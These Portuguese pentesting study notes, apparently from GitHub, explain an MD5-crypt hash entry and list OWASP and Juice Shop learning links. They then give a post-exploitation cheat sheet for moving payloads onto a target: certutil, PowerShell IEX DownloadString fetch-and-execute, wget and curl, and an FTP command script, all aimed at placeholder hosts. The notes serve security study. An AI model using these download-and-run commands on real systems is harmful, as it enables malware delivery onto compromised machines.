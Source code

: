 
- **`$1$`**: Indica que a hash é do tipo MD5-crypt.
- **`XXXXXXXX`**: Salt (valor aleatório usado para gerar a hash).
- **`WHEbJtn2Q0oxB3s4C6osu1`**: Hash MD5-crypt da senha.
- **`0`**: Indica que o usuário está ativo.
## OWASP
livro
- https://github.com/OWASP/wstg/releases
youtube
- https://www.youtube.com/@OWASPGLOBAL/videos
aplicação vulnerável
- https://owasp.org/www-project-juice-shop/
- https://hub.docker.com/r/bkimminich/juice-shop


# pós exploração

## transferência de arquivos
**windows**
```
certutil.exe -urlcache -f http://IP:PORT/file.txt output_filename.exe # alerta de trojan

powershell.exe wget URL -Outfile file.exe

powershell -c "wget http://IP:PORT/cred.txt -Outfile filename.txt"

powershell.exe (New-Object System.Net.WebClient).DownloadFtring('URL/file.txt','file.txt')

powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('URL/file.txt') # lê o arquivo .txt e executa as intruções que estiverem nele
```

**linux**
```
wget http://IP/file.exe -O /tmp/file.exe
curl http://IP/file.exe -o file.exe
```


### via ftp
o utilitário ftp do windows tem a flag `-s` que permite usarmos um arquivo .txt para especificar os comandos ftp que serão executados. Assim criamos o arquivo ftp.txt com as instruções que desejamos para baixar o arquivo do nosso servidor ftp

arquivo `ftp.txt`
```
open IP
USER anonymous
PASS anonymous
bin
GET file.exe
QUIT
```
no alvo windows:
```
ftp -v -n -s:ftp.txt
```
